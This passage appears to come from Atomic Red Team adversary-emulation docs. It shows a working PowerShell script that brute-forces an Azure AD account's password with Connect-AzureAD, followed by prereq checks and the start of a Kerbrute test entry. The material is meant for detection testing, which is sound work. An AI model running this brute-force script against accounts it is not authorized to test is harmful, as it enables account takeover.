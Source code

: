 | Name      | Description                                                                                                                                        | Type   | Default Value                  |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------ |
| username  | Account to bruteforce. We encourage users running this atomic to add a valid microsoft account domain; for eg "bruce.wayne@<valid_ms_account.com>" | string | bruce.wayne@contoso.com        |
| passwords | List of passwords we will attempt to brute force with                                                                                              | string | Password1`n1q2w3e4r`nPassword! |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD

$passwords = "#{passwords}".split("{`n}")
foreach($password in $passwords) {
  $PWord = ConvertTo-SecureString -String "$password" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
  try {
    Write-Host " [-] Attempting ${password} on account #{username}."
    Connect-AzureAD -Credential $Credential 2>&1> $null
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{username}:${password} are valid credentials!`r`n"
    break
  } catch {
    Write-Host " [-] #{username}:${password} invalid credentials.`r`n"
  }
}
Write-Host "End of bruteforce"
```

#### Dependencies: Run with `powershell`!

##### Description: AzureAD module must be installed.

##### Check Prereq Commands:

```powershell
try {if (Get-InstalledModule -Name AzureAD -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AzureAD -Force
```

<br/>
<br/>

## Atomic Test #4 - Password Brute User using Kerbrute Tool

Bruteforce a single user's password from a wordlist

**Supported Platforms:** Windows
